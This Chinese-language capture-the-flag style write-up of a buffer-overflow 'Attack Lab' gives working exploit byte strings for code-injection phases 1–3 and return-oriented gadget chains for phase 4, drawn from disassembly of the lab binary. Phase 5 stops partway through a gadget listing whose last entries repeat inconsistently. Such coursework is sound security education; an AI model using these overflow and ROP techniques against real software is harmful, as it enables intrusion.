




# The Attack Lab: Understanding Buffer Overflow Bugs

本lab主要实现5个攻击实验，其中包括3个代码注射攻击实验和2个代码重定向攻击来更好的理解缓冲区溢出攻击。



# Phase 1

该实验需要实现的目的是当主程序进入test函数后，

```c
1 void test()
2 {
3 	int val;
4 	val = getbuf();
5 	printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```

从第4行getbuf函数返回时，不执行第5行，而是调用touch1函数：

```c
1 void touch1()
2 {
3 	vlevel = 1; /* Part of validation protocol */
4 	printf("Touch1!: You called touch1()\n");
5 	validate(1);
6 	exit(0);
7 }
```

要实现该目的，主要的思路就是修改栈中存储的返回地址。

先从ctarget的反汇编程序中的main程序入手，从main程序调用stable_launch函数：

```c
401372:	e8 ea 0b 00 00       	callq  401f61 <stable_launch>
```

进入到stable_launch函数：

```c
0000000000401f61 <stable_launch>:
  401f61:	53                   	push   %rbx
  401f62:	48 89 3d 5f 25 20 00 	mov    %rdi,0x20255f(%rip)        # 6044c8 <global_offset>
  401f69:	41 b9 00 00 00 00    	mov    $0x0,%r9d
  401f6f:	41 b8 00 00 00 00    	mov    $0x0,%r8d
  401f75:	b9 32 01 00 00       	mov    $0x132,%ecx
  401f7a:	ba 07 00 00 00       	mov    $0x7,%edx
  401f7f:	be 00 00 10 00       	mov    $0x100000,%esi
  401f84:	bf 00 60 58 55       	mov    $0x55586000,%edi
  401f89:	e8 62 ed ff ff       	callq  400cf0 <mmap@plt>
  401f8e:	48 89 c3             	mov    %rax,%rbx
  401f91:	48 3d 00 60 58 55    	cmp    $0x55586000,%rax
  401f97:	74 37                	je     401fd0 <stable_launch+0x6f>
  401f99:	be 00 00 10 00       	mov    $0x100000,%esi
  401f9e:	48 89 c7             	mov    %rax,%rdi
  401fa1:	e8 3a ee ff ff       	callq  400de0 <munmap@plt>
  401fa6:	b9 00 60 58 55       	mov    $0x55586000,%ecx
  401fab:	ba 80 34 40 00       	mov    $0x403480,%edx
  401fb0:	be 01 00 00 00       	mov    $0x1,%esi
  401fb5:	48 8b 3d f4 24 20 00 	mov    0x2024f4(%rip),%rdi        # 6044b0 <stderr@@GLIBC_2.2.5>
  401fbc:	b8 00 00 00 00       	mov    $0x0,%eax
  401fc1:	e8 9a ee ff ff       	callq  400e60 <__fprintf_chk@plt>
  401fc6:	bf 01 00 00 00       	mov    $0x1,%edi
  401fcb:	e8 70 ee ff ff       	callq  400e40 <exit@plt>
  401fd0:	48 8d 90 f8 ff 0f 00 	lea    0xffff8(%rax),%rdx
  401fd7:	48 89 15 32 31 20 00 	mov    %rdx,0x203132(%rip)        # 605110 <stack_top>
  401fde:	48 89 e0             	mov    %rsp,%rax
  401fe1:	48 89 d4             	mov    %rdx,%rsp
  401fe4:	48 89 c2             	mov    %rax,%rdx
  401fe7:	48 89 15 d2 24 20 00 	mov    %rdx,0x2024d2(%rip)        # 6044c0 <global_save_stack>
  401fee:	48 8b 3d d3 24 20 00 	mov    0x2024d3(%rip),%rdi        # 6044c8 <global_offset>
  401ff5:	e8 ba fe ff ff       	callq  401eb4 <launch>
  401ffa:	48 8b 05 bf 24 20 00 	mov    0x2024bf(%rip),%rax        # 6044c0 <global_save_stack>
  402001:	48 89 c4             	mov    %rax,%rsp
  402004:	be 00 00 10 00       	mov    $0x100000,%esi
  402009:	48 89 df             	mov    %rbx,%rdi
  40200c:	e8 cf ed ff ff       	callq  400de0 <munmap@plt>
  402011:	5b                   	pop    %rbx
  402012:	c3                   	retq   
  402013:	90                   	nop
  402014:	90                   	nop
  402015:	90                   	nop
  402016:	90                   	nop
  402017:	90                   	nop
  402018:	90                   	nop
  402019:	90                   	nop
  40201a:	90                   	nop
  40201b:	90                   	nop
  40201c:	90                   	nop
  40201d:	90                   	nop
  40201e:	90                   	nop
  40201f:	90                   	nop
```

该函数在401ff5处调用launch程序，进入launch程序：

```c
0000000000401eb4 <launch>:
  401eb4:	55                   	push   %rbp
  401eb5:	48 89 e5             	mov    %rsp,%rbp
  401eb8:	48 83 ec 10          	sub    $0x10,%rsp
  401ebc:	48 89 fa             	mov    %rdi,%rdx
  401ebf:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401ec6:	00 00 
  401ec8:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401ecc:	31 c0                	xor    %eax,%eax
  401ece:	48 8d 47 1e          	lea    0x1e(%rdi),%rax
  401ed2:	48 83 e0 f0          	and    $0xfffffffffffffff0,%rax
  401ed6:	48 29 c4             	sub    %rax,%rsp
  401ed9:	48 8d 7c 24 0f       	lea    0xf(%rsp),%rdi
  401ede:	48 83 e7 f0          	and    $0xfffffffffffffff0,%rdi
  401ee2:	be f4 00 00 00       	mov    $0xf4,%esi
  401ee7:	e8 14 ee ff ff       	callq  400d00 <memset@plt>
  401eec:	48 8b 05 ad 25 20 00 	mov    0x2025ad(%rip),%rax        # 6044a0 <stdin@@GLIBC_2.2.5>
  401ef3:	48 39 05 d6 25 20 00 	cmp    %rax,0x2025d6(%rip)        # 6044d0 <infile>
  401efa:	75 14                	jne    401f10 <launch+0x5c>
  401efc:	be b4 32 40 00       	mov    $0x4032b4,%esi
  401f01:	bf 01 00 00 00       	mov    $0x1,%edi
  401f06:	b8 00 00 00 00       	mov    $0x0,%eax
  401f0b:	e8 e0 ee ff ff       	callq  400df0 <__printf_chk@plt>
  401f10:	c7 05 c2 25 20 00 00 	movl   $0x0,0x2025c2(%rip)        # 6044dc <vlevel>
  401f17:	00 00 00 
  401f1a:	b8 00 00 00 00       	mov    $0x0,%eax
  401f1f:	e8 44 fa ff ff       	callq  401968 <test>
  401f24:	83 3d bd 25 20 00 00 	cmpl   $0x0,0x2025bd(%rip)        # 6044e8 <is_checker>
  401f2b:	74 14                	je     401f41 <launch+0x8d>
  401f2d:	bf c1 32 40 00       	mov    $0x4032c1,%edi
  401f32:	e8 89 ed ff ff       	callq  400cc0 <puts@plt>
  401f37:	b8 00 00 00 00       	mov    $0x0,%eax
  401f3c:	e8 ca fa ff ff       	callq  401a0b <check_fail>
  401f41:	bf cc 32 40 00       	mov    $0x4032cc,%edi
  401f46:	e8 75 ed ff ff       	callq  400cc0 <puts@plt>
  401f4b:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  401f4f:	64 48 33 04 25 28 00 	xor    %fs:0x28,%rax
  401f56:	00 00 
  401f58:	74 05                	je     401f5f <launch+0xab>
  401f5a:	e8 81 ed ff ff       	callq  400ce0 <__stack_chk_fail@plt>
  401f5f:	c9                   	leaveq 
  401f60:	c3                   	retq   
```

该函数在401f1f处调用test函数：

```c
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <__printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq   
  401991:	90                   	nop
  401992:	90                   	nop
  401993:	90                   	nop
  401994:	90                   	nop
  401995:	90                   	nop
  401996:	90                   	nop
  401997:	90                   	nop
  401998:	90                   	nop
  401999:	90                   	nop
  40199a:	90                   	nop
  40199b:	90                   	nop
  40199c:	90                   	nop
  40199d:	90                   	nop
  40199e:	90                   	nop
  40199f:	90                   	nop
```

其中getbuf函数为, 分析可知，当进入getbuf函数时，栈中区域内容如下，黄色区域是缓冲区，为40个字节大小：

```c
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
      
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```



因此要使得从getbuf函数返回到touch1函数，则填入的字符串需要覆盖住黄色区域，并且修改0x5561dca0处的返回地址为touch1的地址，而touch1的地址为0x4017c0, 因此输入的文本应为：

```c
40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 
40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40
c0 17 40
```

将其保存为input1.txt文件，再将该文本转换为原始字符串作为输入即可，执行：

```c
./hex2raw < input1.txt | ./ctarget  -q
```

输出如下，因此解答了实验。

```c
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
```


# Phase 2

该实验需要我们从刚才的实验返回touch2，并且还要给touch2函数传递参数为cookie值。该实验与phase1相比，还需要传递函数参数。

```c
1 void touch2(unsigned val)
2 {
3 	vlevel = 2; /* Part of validation protocol */
4 	if (val == cookie) {
5 		printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 		validate(2);
7 	} else {
8 		printf("Misfire: You called touch2(0x%.8x)\n", val);
9 		fail(2);
10 	}
11 	exit(0);
12 }
```

touch2函数的反汇编代码为：

```c
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
      
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

首先在返回到touch2函数的地址之前，需要先将cookie的参数赋值给%rdi寄存器，因此getbuf函数不能直接返回到touch2函数的调用地址，而是要先返回到一个地址，在该地址的区域要执行参数赋值操作，即：

```c
movq (0x6044e4), %rdi
sub $0x10, %rsp
ret
```

将其保存为input2code.s文本，然后执行：

```c
root@iZ2zej73062qhjguhdhq2rZ:~/1007lab/4attacklab/target1# gcc -c input2code.s
root@iZ2zej73062qhjguhdhq2rZ:~/1007lab/4attacklab/target1# objdump -d input2code.o
```

输出为反汇编代码的字节码：

```c
0000000000000000 <.text>:
   0:	48 8b 3c 25 e4 44 60 	mov    0x6044e4,%rdi
   7:	00 
   8:	48 83 ec 10          	sub    $0x10,%rsp
   c:	c3                   	retq   
```

因此最终输入的文本如下，首先程序从getbuf函数返回时，弹出0x5561dca0地址处的内容（此时%rsp = 0x5561dca0 ），此时程序跳转到0x5561dc78，执行上述的反汇编代码，%rsp-0x10（此时%rsp = 0x5561dca0 + 8 - 0x10 =0x5561dc98）的原因在于从反汇编代码返回时，应当返回到touch2的函数地址，因此将0x5561dc98地址处的内容修改为touch2函数的地址0x4017ec。


```c
//解释性文本
0x5561dc78:         48 8b 3c 25 e4 44 60 00 
                    48 83 ec 10
                    c3
                    40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40
0x5561dc98:         ec 17 40 00 00 00 00 00 
0x5561dca0:         78 dc 61 55  
```

最终文本为：

```c
48 8b 3c 25 e4 44 60 00 
48 83 ec 10
c3
40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40 40
ec 17 40 00 00 00 00 00 
78 dc 61 55 
```


# Phase 3

该实验与Phase1和Phase2实验类似，不同之处在于这次从test函数中返回到touch3函数的时候，需要传递字符串参数。

```c
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */
6 	char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 	 vlevel = 3; /* Part of validation protocol */
14 	 if (hexmatch(cookie, sval)) {
15 	 	printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 	 	validate(3);
17 	 } else {
18 	 	printf("Misfire: You called touch3(\"%s\")\n", sval);
19 	 	fail(3);
20 	 }
21 	 exit(0);
22 }
```

反汇编代码：

```c
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
  401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401854:	41 89 fc             	mov    %edi,%r12d //第一个参数
  401857:	48 89 f5             	mov    %rsi,%rbp //第二个参数
  40185a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401861:	00 00 
  401863:	48 89 44 24 78       	mov    %rax,0x78(%rsp) //存储金丝雀值
  401868:	31 c0                	xor    %eax,%eax // eax = 0
  40186a:	e8 41 f5 ff ff       	callq  400db0 <random@plt>
  40186f:	48 89 c1             	mov    %rax,%rcx // rcx = 0
  401872:	48 ba 0b d7 a3 70 3d 	movabs $0xa3d70a3d70a3d70b,%rdx
  401879:	0a d7 a3 
  40187c:	48 f7 ea             	imul   %rdx // %rdx 乘上 %rax，答案的高64位写入%rax，低64位写入%rdx
  40187f:	48 01 ca             	add    %rcx,%rdx //  rdx = 0
  401882:	48 c1 fa 06          	sar    $0x6,%rdx //
  401886:	48 89 c8             	mov    %rcx,%rax
  401889:	48 c1 f8 3f          	sar    $0x3f,%rax
  40188d:	48 29 c2             	sub    %rax,%rdx
  401890:	48 8d 04 92          	lea    (%rdx,%rdx,4),%rax
  401894:	48 8d 04 80          	lea    (%rax,%rax,4),%rax
  401898:	48 c1 e0 02          	shl    $0x2,%rax
  40189c:	48 29 c1             	sub    %rax,%rcx
  40189f:	48 8d 1c 0c          	lea    (%rsp,%rcx,1),%rbx
  4018a3:	45 89 e0             	mov    %r12d,%r8d
  4018a6:	b9 e2 30 40 00       	mov    $0x4030e2,%ecx
  4018ab:	48 c7 c2 ff ff ff ff 	mov    $0xffffffffffffffff,%rdx
  4018b2:	be 01 00 00 00       	mov    $0x1,%esi
  4018b7:	48 89 df             	mov    %rbx,%rdi
  4018ba:	b8 00 00 00 00       	mov    $0x0,%eax
  4018bf:	e8 ac f5 ff ff       	callq  400e70 <__sprintf_chk@plt>
  4018c4:	ba 09 00 00 00       	mov    $0x9,%edx
  4018c9:	48 89 de             	mov    %rbx,%rsi
  4018cc:	48 89 ef             	mov    %rbp,%rdi
  4018cf:	e8 cc f3 ff ff       	callq  400ca0 <strncmp@plt>
  4018d4:	85 c0                	test   %eax,%eax
  4018d6:	0f 94 c0             	sete   %al
  4018d9:	0f b6 c0             	movzbl %al,%eax
  4018dc:	48 8b 74 24 78       	mov    0x78(%rsp),%rsi
  4018e1:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  4018e8:	00 00 
  4018ea:	74 05                	je     4018f1 <hexmatch+0xa5>
  4018ec:	e8 ef f3 ff ff       	callq  400ce0 <__stack_chk_fail@plt>
  4018f1:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp
  4018f5:	5b                   	pop    %rbx
  4018f6:	5d                   	pop    %rbp
  4018f7:	41 5c                	pop    %r12
  4018f9:	c3                   	retq   
```

```c
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	callq  401c8d <validate>
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	callq  401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>

```

需要将cookie字节内容的地址传送给函数的第一个参数，因此需要插入代码为：

```c
movq $0x5561dca8, %rdi
sub $0x10, %rsp
ret

字节码为：
48 c7 c7 a8 dc 61 55 // 0x5561dc78
48 83 ec 10
c3    
```

最终的文本为：

```c
0x5561dc78: 48 c7 c7 a8 dc 61 55 // 0x5561dc78
			48 83 ec 10
			c3
			40 40 40 40 40 40 40 40 40 40 40
			40 40 40 40 40 40 40 40 40
0x5561dc98：  fa 18 40 00 00 00 00 00 // touch3的地址 
0x5561dca0:   78 dc 61 55 00 00 00 00 // 返回到0x5561dc78
0x5561dca8：  35 39 62 39 39 37 66 61 00 // 0x5561dca8 cookie字符0x59b997fa的ascii表示
```

首先从getbuf函数返回时弹出0x5561dca0处的返回地址，返回到输入的反汇编代码的字节码处开始执行，将cookie内容0x59b997fa转换为ASCII码$35 \ 39 \      62 \ 39 \ 39 \ 37 \  66 \ 61 \ 00$的内容存储在0x5561dca8处，这里要注意cookie的内容不能存放在touch3地址的上面，因为进入到touch3函数后，

```c
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
```

这部分代码会执行压栈操作，可能会覆盖住我们存储的表示cookie内容的字节，因此我们将cookie内容存储在0x5561dca8来避免被覆盖的操作。因此最终的文本本：

```c
48 c7 c7 a8 dc 61 55 
48 83 ec 10
c3
40 40 40 40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40 40
fa 18 40 00 00 00 00 00 
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 00 
```


# Phase 4

该实验是通过不注入攻击代码，只改变代码的返回位置的方式来实现Phase2的目标，在源代码中给了我们一些可利用的代码如下：

```c
0000000000401994 <start_farm>:
  401994:       b8 01 00 00 00          mov    $0x1,%eax
  401999:       c3                      retq

000000000040199a <getval_142>:
  40199a:       b8 fb 78 90 90          mov    $0x909078fb,%eax
  40199f:       c3                      retq

00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax // 0x4019a3:  89 c7 c3  movl %eax, %edi 将cookie的值从rax给rdi，作为函数touch2的第一个参数
  4019a6:       c3                      retq

00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq

00000000004019ae <setval_237>:
  4019ae:       c7 07 48 89 c7 c7       movl   $0xc7c78948,(%rdi)
  4019b4:       c3                      retq
i
00000000004019b5 <setval_424>:
  4019b5:       c7 07 54 c2 58 92       movl   $0x9258c254,(%rdi)
  4019bb:       c3                      retq

00000000004019bc <setval_470>:
  4019bc:       c7 07 63 48 8d c7       movl   $0xc78d4863,(%rdi)
  4019c2:       c3                      retq

00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq

00000000004019ca <getval_280>:
  4019ca:       b8 29 58 90 c3          mov    $0xc3905829,%eax // 其中4019cc: 58 90 c3  popq %rax 将栈顶元素给%rax
  4019cf:       c3                      retq

00000000004019d0 <mid_farm>:
  4019d0:       b8 01 00 00 00          mov    $0x1,%eax
  4019d5:       c3
```

由于所有的代码本身都是可以以字节的形式储存，因为我们可以从上述代码的中间位置进行执行，则可以实现不同的功能。将上述代码与下列的字节所表示的指令进行对比，从中找到我们所需的指令。





从上述<start_farm>——<mid_farm>中我们可以找到一些有用的代码内容，注明在上述代码块中，因此我们的输入文本为：

```c
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40 // 40个字节的缓冲区
cc 19 40 00 00 00 00 00 // test的返回地址修改为0x4019cc: 58 90 c3 popq %rax 将当前栈顶元素给%rax
fa 97 b9 59 00 00 00 00 // 栈顶元素为cookie的内存值0x59b997fa
a3 19 40 00 00 00 00 00 // 此时返回到0x4019a3:  89 c7 c3  movl %eax, %edi 将cookie的值从rax给rdi，作为函数touch2的第一个参数
ec 17 40 00 00 00 00 00 // touch2的地址
```


# Phase 5

该实验是通过不注入攻击代码，只改变代码的返回位置的方式来实现Phase3的目标，源代码中可利用的代码如下：

```c
0000000000401994 <start_farm>:
  401994:       b8 01 00 00 00          mov    $0x1,%eax
  401999:       c3                      retq

000000000040199a <getval_142>:
  40199a:       b8 fb 78 90 90          mov    $0x909078fb,%eax
  40199f:       c3                      retq

00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq

00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq

00000000004019ae <setval_237>:
  4019ae:       c7 07 48 89 c7 c7       movl   $0xc7c78948,(%rdi)
  4019b4:       c3                      retq
i
00000000004019b5 <setval_424>:
  4019b5:       c7 07 54 c2 58 92       movl   $0x9258c254,(%rdi)
  4019bb:       c3                      retq

00000000004019bc <setval_470>:
  4019bc:       c7 07 63 48 8d c7       movl   $0xc78d4863,(%rdi)
  4019c2:       c3                      retq

00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq

00000000004019ca <getval_280>:
  4019ca:       b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:       c3                      retq

00000000004019d0 <mid_farm>:
  4019d0:       b8 01 00 00 00          mov    $0x1,%eax
  4019d5:       c3
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq

00000000004019db <getval_481>:
  4019db:       b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:       c3                      retq

00000000004019e1 <setval_296>:
  4019e1:       c7 07 99 d1 90 90       movl   $0x9090d199,(%rdi)
  4019e7:       c3                      retq

00000000004019e8 <addval_113>:
  4019e8:       8d 87 89 ce 78 c9       lea    -0x36873177(%rdi),%eax
  4019ee:       c3                      retq

00000000004019ef <addval_490>:
  4019ef:       8d 87 8d d1 20 db       lea    -0x24df2e73(%rdi),%eax
  4019f5:       c3                      retq

00000000004019f6 <getval_226>:
  4019f6:       b8 89 d1 48 c0          mov    $0xc048d189,%eax
  4019fb:       c3                      retq

00000000004019fc <setval_384>:
  4019fc:       c7 07 81 d1 84 c0       movl   $0xc084d181,(%rdi)
  401a02:       c3                      retq

0000000000401a03 <addval_190>:
  401a03:       8d 87 41 48 89 e0       lea    -0x1f76b7bf(%rdi),%eax
  401a09:       c3                      retq

0000000000401a0a <setval_276>:
  401a0a:       c7 07 88 c2 08 c9       movl   $0xc908c288,(%rdi)
  401a10:       c3                      retq

0000000000401a11 <addval_436>:
  401a11:       8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:       c3                      retq

0000000000401a18 <getval_345>:
  401a18:       b8 48 89 e0 c1          mov    $0xc1e08948,%eax
  401a1d:       c3                      retq

0000000000401a1e <addval_479>:
  401a1e:       8d 87 89 c2 00 c9       lea    -0x36ff3d77(%rdi),%eax
  401a24:       c3                      retq

0000000000401a25 <addval_187>:
  401a25:       8d 87 89 ce 38 c0       lea    -0x3fc73177(%rdi),%eax
  401a2b:       c3                      retq

0000000000401a2c <setval_248>:
  401a2c:       c7 07 81 ce 08 db       movl   $0xdb08ce81,(%rdi)
  401a32:       c3                      retq

0000000000401a33 <getval_159>:
  401a33:       b8 89 d1 38 c9          mov    $0xc938d189,%eax
  401a38:       c3                      retq

0000000000401a39 <addval_110>:
  401a39:       8d 87 c8 89 e0 c3       lea    -0x3c1f7638(%rdi),%eax
  401a3f:       c3                      retq

0000000000401a40 <addval_487>:
  401a40:       8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
  401a46:       c3                      retq

0000000000401a47 <addval_201>:
  401a47:       8d 87 48 89 e0 c7       lea    -0x381f76b8(%rdi),%eax
  401a4d:       c3                      retq

0000000000401a4e <getval_272>:
  401a4e:       b8 99 d1 08 d2          mov    $0xd208d199,%eax
  401a53:       c3                      retq

0000000000401a54 <getval_155>:
  401a4e:       b8 99 d1 08 d2          mov    $0xd208d199,%eax
  401a53:       c3                      retq

0000000000401a54 <getval_155>:
